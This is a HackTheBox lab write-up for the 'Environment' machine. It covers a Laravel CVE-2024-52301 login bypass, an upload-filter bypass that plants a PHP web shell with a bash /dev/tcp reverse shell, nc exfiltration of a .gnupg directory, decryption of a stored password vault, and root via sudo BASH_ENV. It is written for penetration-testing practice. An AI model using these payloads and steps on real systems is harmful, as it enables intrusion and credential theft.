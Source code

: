 ```yaml
---
title: Environment
published: 2025-05-04
description: "
Environment is a Linux machine. The box involves exploiting a Laravel web application vulnerability (CVE-2024-52301) to bypass authentication and upload a shell. It involves finding and decrypting a GPG backup file to obtain credentials, and finally escalating privileges to root by abusing sudo permissions and the BASH_ENV variable.
"
image: "/banner/Environment.png"
tags: [Linux, Medium, CVE-2024-52301, Laravel, File Upload, GPG, BASH_ENV]
category: "HackTheBox"
draft: false
lang: "en"
---
```


# Description

Environment is a Linux machine. The box involves exploiting a Laravel web application vulnerability (CVE-2024-52301) to bypass authentication and upload a shell. It involves finding and decrypting a GPG backup file to obtain credentials, and finally escalating privileges to root by abusing sudo permissions and the `BASH_ENV` variable.

# Recon

## nmap

Result of `nmap` scan :

```bash
# Nmap 7.95 scan initiated Sun May  4 17:32:43 2025 as: nmap -vvv -p- -T4 -sSCV -oN all_tcp_scan.txt 10.10.11.67
Nmap scan report for 10.10.11.67 (10.10.11.67)
Host is up, received echo-reply ttl 63 (0.031s latency).
Scanned at 2025-05-04 17:32:44 WIB for 33s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey:
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3dokS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
|   256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp open  http    syn-ack ttl 63 nginx 1.22.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://environment.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  4 17:33:17 2025 -- 1 IP address (1 host up) scanned in 33.85 seconds
```

Only two ports are open, `22` and `80`. From the `nmap` scan, we can see that the `http` service is redirecting to `http://environment.htb`. Let's add it to the `/etc/hosts` file.

```bash
10.10.11.67 environment.htb
```

# 80 - TCP

The website itself is a simple static page.

![alt text](image.png)

## Fuzzing

```bash
> feroxbuster --no-state -n -u http://environment.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
...
403      GET        7l        9w      153c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET       32l      137w     6603c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        1l        3w       16c http://environment.htb/.php
200      GET        1l       27w     1713c http://environment.htb/build/assets/styles-Bl2K3jyg.css
200      GET        1l      119w     4111c http://environment.htb/build/assets/login-CnECh1Us.css
302      GET       12l       22w      358c http://environment.htb/logout => http://environment.htb/login
200      GET       54l      174w     2391c http://environment.htb/login
405      GET     2575l     8675w   244841c http://environment.htb/mailing
200      GET       87l      392w     4602c http://environment.htb/
405      GET     2575l     8675w   244839c http://environment.htb/upload
404      GET        1l        3w       16c http://environment.htb/.inc.php
200      GET       50l      135w     2125c http://environment.htb/up
301      GET        7l       11w      169c http://environment.htb/storage => http://environment.htb/storage/
301      GET        7l       11w      169c http://environment.htb/build => http://environment.htb/build/
301      GET        7l       11w      169c http://environment.htb/vendor => http://environment.htb/vendor/
404      GET        1l        3w       16c http://environment.htb/.class.php
404      GET        1l        3w       16c http://environment.htb/.js.php
404      GET        1l        3w       16c http://environment.htb/.local.php
404      GET        1l        3w       16c http://environment.htb/.css.php
404      GET        1l        3w       16c http://environment.htb/.settings.php
404      GET        1l        3w       16c http://environment.htb/.phpmailer.php
...
```

There two endpoints that return `405` status code, `/mailing` and `/upload`.<br>

## Enumeration

Visiting `/mailing` reveals that the website runs a Laravel framework in debug mode and the version is `11.30.0` which is vulnerable to [CVE-2024-52301](https://github.com/laravel/framework/security/advisories/GHSA-gv7v-rgg6-548h).

![alt text](image-1.png)

## CVE-2024-52301

After some research, I found a [PoC](https://github.com/Nyamort/CVE-2024-52301) for `CVE-2024-52301`. We just need to add `?--env=VALUE` to change the environment of the application. Testing on the landing page with `?--env=test` will change the value on the footer to `Test`.

![alt text](image-2.png)

That's it, there are no signficant changes on the website. Let's enumerate further. There's `/login` endpoint and it doesn't vulnerable to SQL injection. Because the debug mode is enabled, we can try to pass an invalid value to the POST body. The `remember` parameter is the best candidate because the value is a boolean. Submitting a login request with random `remember` value like `asdf` or an empty value will return another debug error.

![alt text](image-3.png)

There's a code that check if the current environment equals to `preprod`, if it's true, we will bypass the login and get a session with `user_id=1`. To do that, we just need to add `?--env=preprod` to the login URL when doing a POST login request.

![alt text](image-4.png)

![alt text](image-5.png)

## File upload bypass

I can't do much in the dashboard other than logout and update our profile. The server accepts any file extension except `.php` as long the file has image signature. After trying some [Upload Tricks](https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/#upload-tricks), I found out that if I upload a filename that ends with `.`, the last dot will be stripped. For example, `test.php..` becomes `test.php.`, so I just need to upload a file with `.php.` extension to upload an `.php` file.

`shell.php.`:

```php
GIF89a
<?php system('bash -c "bash -i >& /dev/tcp/10.10.x.x/9001 0>&1"');?>
```

After uploading the file, you should have a reverse shell.

# Shell as www-data

## User flag

```bash
www-data@environment:/home/hish$ cat user.txt
cat user.txt
deadbeef74d6ed5bcdef1d348f3dfake
```

## Backup file

You can find a GPG file at `/home/hish/backup/keyvault.gpg` which is globally readable. The owner of this file is `hish`, so it should be encrypted with hish's key. To decrypt a GPG file, we need the `.gnupg` directory. Because this directory is readable, we can zip it then transfer it to our machine also with the backup file.

```bash
www-data@environment:/home/hish$ zip -r /tmp/gnupg.zip .gnupg backup
```

Then, transfer it using `nc`.

```bash
# Our machine
nc -nvlp 3333 > gnupg.zip
# Victim
nc 10.10.14.66 3333 -w 4 < /tmp/gnupg.zip
```

Unzip and decrypt it using the following command.

```bash
> gpg --homedir ./.gnupg/ -d backup/keyvault.gpg
...
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> <hish_password>
FACEBOOK.COM -> summerSunnyB3ACH!!
```

You can use the password for `environment.htb` to authenticate to the SSH as `hish`.

# Auth as hish

## Sudo access

```bash
hish@environment:~$ sudo -l
[sudo] password for hish:
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
hish@environment:~$ file /usr/bin/systeminfo
/usr/bin/systeminfo: Bourne-Again shell script, ASCII text executable
```

Checking for `sudo` access, we get `(ALL) /usr/bin/systeminfo` which is a bash script and `env_keep+="ENV BASH_ENV"` which means when we execute a bash script, the file pointed by the `BASH_ENV` will be executed.

## Root flag

So create a bash script and make it executable then use it as `BASH_ENV` value when executing `/usr/bin/systeminfo` command.

```bash
cd /tmp
echo "/bin/sh" > sheesh.sh
chmod +x sheesh.sh
sudo BASH_ENV=/tmp/sheesh.sh /usr/bin/systeminfo
```

```bash
# cat /root/root.txt
deadbeefcc76be23724a79e9fb2ffake
```
